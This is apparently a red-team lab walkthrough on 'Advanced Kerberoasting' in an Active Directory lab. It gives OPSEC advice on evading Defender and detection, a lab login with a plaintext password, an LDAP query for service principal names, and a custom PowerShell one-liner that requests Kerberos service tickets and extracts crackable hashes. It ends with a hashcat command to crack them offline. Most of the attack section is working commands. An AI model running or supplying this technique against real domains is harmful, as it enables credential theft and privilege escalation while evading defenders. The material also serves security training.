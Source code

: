 # Advanced Kerberoasting


## Roast like a Ghost

The point of kerberoasting is to get credentials for accounts with higher privledges. Service accounts or accounts with SPNs (Call them SPINS if you want to be cool.) often have higher credentials. MSSQL databases actually automatically create them for the service account running the MSSQL service.  But they can often be assigned to accounts for number of services including files services.

As you can imagine, even lowly Domain Users need to interact with file services, and can request tickets associated with these SPN accounts. Previously you did this were Rubeus, now we are going to turn on defender, watch it delete that tool immediately because it is super burned, and then craft our own Ticket Requests to get the Kerb Hash back from the svc-file account.

> **OPSEC NOTES**:
> - You still need the domain user context, so proxying would require passing creds but is doable.
> - Don't dump the results to a file, non custom tools like you just use do that by default, but this is quickly evades
> - This does require network authentication, so there is a double-hop issue with doing it remotely without passing creds
> - If this is done in a custom runspace, it's very difficult to detect


1. Login from LIGHTEATER to TWORIVERS using RDP and the following user level credentials:  
wheel\felixb:P@ssW0rD!

2. Now that you have the SAM account names, perform a subsquent query to obtain the SPN names. These will be used to perform targeted kerberoasting attacks by obtaining the kerberos pre-authentication ticket hash from the DC.


```
$name="svc-file"
[string[]]$spns=([adsisearcher]"(&(objectCategory=user)(samaccountname=$name))").findall()|%{$_.properties["serviceprincipalname"]};$spns
```

3. Armed with the list of the user SAM accounts and SPN names, we will perform the attack using the command below. Note that you will need to change the SPN and SAM account for each user (e.g., "`HOST/shadarlogoth.wheel.co`", "`svc-file`"). Copy the SPN hashes to crack offline.

> Requesting a TGS-REP ticket for the user with the SPN. All domain users can request any service.

```
$_spn={param($spn,$sam);$_=[reflection.assembly]::loadwithpartialname("system.identitymodel");$tgt=[identitymodel.tokens.kerberosrequestorsecuritytoken]::new($spn);$tb=$tgt.getrequest();if($tb){$th=[bitconverter]::tostring($tb)-replace"-";[collections.arraylist]$pt=($th-replace"^(.*?)04820...(.*)","`$2")-split"a48201";$pt.removeat($pt.count-1);$hs=$pt-join"a48201";$hs=$hs.insert(32,"`$");"`n`$krb5tgs`$23`$*"+$sam+"/"+$spn+"*`$"+$hs;}}; $_spn.invoke("HOST/shadarlogoth.wheel.co", "svc-file");
```
Returns the RC4 HASH

![SPN Burn](./Kerb-burn-2.png)

> You don't have this written to file, but you can just copy it from the terminal, and into a notepad file on your LIGHTEATER desktop. However, this is the same has that you already cracked previously.

1. If you wanted to use **hashcat** in your own environment, your command would look like this. Of course the password has to be in the list.
   ```sh
   hashcat -m 13100 -a 0 -w 4 --force --opencl-device-types 1,2 -O ./kerb.hash ./rawk_you.txt
   ```
   Keep a text file with the decrypted passwords for each domain admin.

13100 is the type used for this kind of ticket.

> You can view modes using: `hashcat -h | grep -i kerberos`




